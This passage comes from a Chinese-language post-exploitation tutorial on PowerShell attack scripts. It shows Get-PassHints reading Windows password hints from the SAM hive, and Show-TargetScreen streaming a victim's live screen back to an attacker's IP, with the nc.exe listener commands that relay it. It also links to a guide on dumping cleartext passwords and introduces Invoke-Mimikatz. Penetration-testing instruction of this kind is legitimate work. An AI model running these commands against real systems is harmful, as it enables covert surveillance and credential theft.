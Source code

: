 [![](https://p0.ssl.qhimg.com/t01b5ddf5ed38cb4df7.jpg)](https://p0.ssl.qhimg.com/t01b5ddf5ed38cb4df7.jpg)

之后执行

```
Get-Job
```

发现尝试多次都测试失败

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c2a88448dc74541a.jpg)

解决办法可以参考： 

[[域渗透——Dump Clear-Text Password after KB2871997 installed]](http://www.myhack58.com/Article/html/3/62/2016/75903.htm)

Get-PassHints

这个脚本可以从Windows获得用户的密码的提示信息，需要有Administrator的权限来读取SAM hive。 

执行方式：

```
PS &gt; Get-PassHints
```

Show-TargetScreen

使用MJPEG传输目标机器的远程桌面的实时画面，在本机我们可以使用NC或者Powercat来进行监听。在本地使用支持MJPEG的浏览器（如：Firefox）访问本机对应监听端口，即可在浏览器上面看到远端传输回来的实时画面。

```
PS &gt; Show-TargetScreen -Reverse -IPAddress 192.168.230.1 -Port 443  //将远程的画面传送到192.168.230.1的443端口
```

测试 

Victim：

```
Show-TargetScreen -IPAddres 192.168.199.127 -Port 5773 -Reverse
```

Attacker：

```
nc.exe -nlvp 5773 | nc.exe -nlvp 9000 //这里我使用的NC，也可以用Powercat
```

本机访问：127.0.0.1:9000

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01852a189eaf71620e.jpg)

Invoke-Mimikatz

Mimikatz大家都非常熟悉了，就不再介绍了 
